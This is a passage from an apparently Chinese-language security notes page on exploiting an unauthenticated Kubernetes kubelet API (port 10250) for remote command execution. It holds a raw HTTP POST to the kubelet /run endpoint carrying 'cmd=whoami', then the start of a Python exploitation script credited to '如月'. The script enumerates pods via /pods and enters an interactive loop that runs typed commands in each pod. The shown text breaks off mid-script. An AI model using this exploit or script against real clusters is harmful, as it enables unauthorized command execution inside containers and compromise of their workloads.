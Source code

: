 ```java
找到对应的字眼
/run/<namespace>/<name>/<labeles>
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647144517055-23f5231e-8276-47ac-b9a2-5b772dd5ca10.png#averageHue=%23f9f9f9&clientId=uc2096fb4-939b-4&from=paste&height=383&id=uddb5dd72&originHeight=510&originWidth=1081&originalType=url&ratio=1&rotation=0&showTitle=false&size=61976&status=done&style=none&taskId=u603f75f4-e7be-42d6-b23d-454ab37ab69&title=&width=811)
```java
POST /run/<namespace>/<name>/<labeles> HTTP/1.1
Host: 192.168.5.174:10250
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

cmd=whoami

```
<a name="dQt7y"></a>
### 如月写的自动化利用python脚本
```java
import re
import json
import argparse
import requests
requests.packages.urllib3.disable_warnings()


def exp_go(ip,port):
    headers={
        "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36 MicroMessenger/7.0.9.501 NetType/WIFI MiniProgramEnv/Windows WindowsWechat",
        "content-type":"application/x-www-form-urlencoded"
        }
    try:
        r=requests.get('https://'+ip+':'+port+'/pods',headers=headers,verify=False,timeout=10)
        info=json.loads(r.text)
    except:
        return False
    for i in range(0,len(info["items"])):
        
        try:
            
            namespace=info["items"][i]["metadata"]["namespace"]
            name=info["items"][i]["metadata"]["name"];
            k8s_app=info["items"][i]["metadata"]["labels"]["k8s-app"]
            url="https://"+ip+":"+port+"/run/"+namespace+"/"+name+"/"+k8s_app
            RCE(url,headers)
        except:
            pass

def RCE(url,headers):
    while(1):
        cmd=input("命令:")
        data={
```